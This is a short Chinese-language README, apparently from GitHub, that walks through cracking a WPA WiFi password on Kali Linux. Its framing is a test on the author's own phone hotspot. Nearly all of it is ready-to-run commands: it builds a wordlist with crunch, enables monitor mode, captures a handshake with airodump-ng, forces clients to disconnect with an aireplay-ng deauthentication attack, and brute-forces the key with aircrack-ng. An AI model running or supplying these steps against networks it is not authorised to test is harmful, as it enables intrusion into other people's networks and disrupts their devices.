 # 破解-wifi
kali的小应用
## 要求:
一台装有kali的电脑 \
一部手机 \
一个支持监控的无线网卡(一般笔记本都支持)； \
一个强大的字典； \
人需要有时间和耐心； \
## 手机开热点，密码设纯数字8到10位
## 准备字典
这里我们自己建一个简单字典来用会比较快，可以验证是否成功， \
先在/etc下创建一个字典，使用crunch命令创建  \
`crunch 8 10 1234567890. -o /etc/zidian.txt`
## 首先断开连接的wifi
在终端中执行：`airmon-ng`
## 开启无线网卡的监控模式
`airmon-ng start wlan0` \
之后网卡接口会变成wlan0mon
## 查看wifi网络
`airodump-ng wlan0mon` \
CH 是频道号，BSSID是网卡物理地址，ESSID是WiFi名称 \
按CTRL+C结束
## 抓取握手包
目标路由CH号为 1 ，mac为 11：22：33：44：55：66 \
命令airodump-ng -c 目标CH号 --bssid 目标mac -w 保存位置 wlan0mon \
`airodump-ng -c 1 --bssid 11:22:33:44:55:66 -w /etc/ wlan0mon` \
成功后，按CTRL+C结束 
## 等不到有人连WiFi，抓不到包，只能强制设备连接
打开另一个终端，运行一下命令 \
-0 是发起攻击，2 是表示断开后ping的次数，次数越多，设备重连的验证时间越长，-a 是指定路由，-c 指定断开设备 \ 
`aireplay-ng -0 2 -a 11:22:33:44:55:66 -c 00:11:22:33:44:55 wlan0mon` \
## 得到握手包后，可以关闭监控模式了
`airmon-ng stop wlan0mon` \
## 开始破解密码
`aircrack-ng -w /etc/zidian.txt /etc/*.cap` 
